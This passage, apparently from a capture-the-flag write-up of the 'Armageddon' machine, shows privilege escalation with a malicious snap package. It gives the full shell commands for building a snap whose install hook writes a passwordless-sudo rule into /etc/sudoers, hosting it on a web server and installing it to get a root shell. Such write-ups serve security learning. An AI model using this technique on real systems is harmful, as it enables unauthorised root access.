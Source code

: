 As per the *[GTFObin's instructions](https://gtfobins.github.io/gtfobins/snap/)* we craft the packet. We'll modify the command in those instructions to be `COMMAND="echo 'brucetherealadmin ALL=(ALL) NOPASSWD:/bin/bash' >> /etc/sudoers"`, so that *brucetherealadmin* can sudo with no password at all. We then transfer this package to our Apache server's directory as `oh.snap`.

```
┌──(kali㉿kali)-[~]
└─$ COMMAND="echo 'brucetherealadmin ALL=(ALL) NOPASSWD:/bin/bash' >> /etc/sudoers"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
Created package {:path=>"xxxx_1.0_all.snap"}

┌──(kali㉿kali)-[/tmp/tmp.CkDpHzKVN8]
└─$ sudo mv xxxx_1.0_all.snap /var/www/html/oh.snap                                

┌──(kali㉿kali)-[/tmp/tmp.CkDpHzKVN8]
└─$
```

Now, after downloading `oh.snap` we execute `sudo /usr/bin/snap install oh.snap --dangerous --devmode` to install the package. This will allow *brucetherealadmin* to execute `sudo /bin/bash` and get us a root shell.

![rootshell](/wp-content/uploads/2021/07/armageddon/rootshell.png)  
**Figure 7:** Installing `oh.snap` allows us to `sudo` with no password to gain a root shell.  
